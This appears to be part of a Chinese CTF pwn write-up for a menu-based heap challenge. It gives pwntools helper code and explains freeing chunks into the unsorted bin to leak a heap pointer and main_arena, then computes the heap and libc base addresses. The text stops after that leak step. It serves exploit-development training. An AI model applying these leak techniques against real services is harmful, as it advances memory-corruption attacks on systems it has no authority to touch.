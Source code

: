 	#命令简写化
	s       = lambda data               :sh.send(data)
	sa      = lambda delim,data         :sh.sendafter(delim, data)
	sl      = lambda data               :sh.sendline(data)
	sla     = lambda delim,data         :sh.sendlineafter(delim, data)
	r       = lambda num=4096           :sh.recv(num)
	ru      = lambda delims             :sh.recvuntil(delims)
	itr     = lambda                    :sh.interactive()
	uu32    = lambda data               :u32(data.ljust(4,'\0'))
	uu64    = lambda data               :u64(data.ljust(8,'\0'))
	leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
	lg      = lambda address,data       :log.success('%s: '%(address)+hex(data))
	#定义gdb调试函数
	def dbg():
	        gdb.attach(sh)
	        pause()
	
	def add(size, content='a'):
	    sla('(CMD)>>> ','a')
	    sla('(SIZE)>>> ',str(size))
	    sla('(CONTENT)>>> ',content)
	
	
	
	def edit(idx, content):
	    sla('(CMD)>>> ','e')
	    sla('(INDEX)>>> ',str(idx))
	    sla('(CONTENT)>>> ',content)
	    sla('Is it OK?\n','Y')
	   
	
	
	def free(idx):
	    sla('(CMD)>>> ','d')
	    sla('(INDEX)>>> ',str(idx))
	
	def exit():
	    sla('(CMD)>>> ','Q')

先申请四个chunk，free(3)和free(1),堆块大于0x7f，所以会进入unsorted bin里，chunk是从1开始计数的，此时chunk_1里存放的就是chunk_3的头指针和main_arena+88的地址，chunk_3的头指针前面有两个大小为(0x100+0x10)的chunk，减去(0x100+0x10)*2就是heap的基地址，之后计算出main_arena+88与libc基地址的距离（这个距离是固定的）0x7f19d3ef7b78−0x7f19d3b33000=0x3C4B78

	add(0x100)
	add(0x100)
	add(0x100)
	add(0x100)
	
	free(3)
	free(1)
	ru('INDEX: 1')
	ru('CONTENT: ')
	heapbase = u64(ru('\n')[:-1].ljust(8,b'\x00')) -(0x100+0x10)*2
	ru('INDEX: 3')
	ru('CONTENT: ')
	libcbase = u64(ru('\n')[:-1].ljust(8,b'\x00')) - 0x3C4B78
	environ = libc.sym['environ']+libcbase
	lg('heapbase',heapbase)
	lg('libcbase',libcbase)
	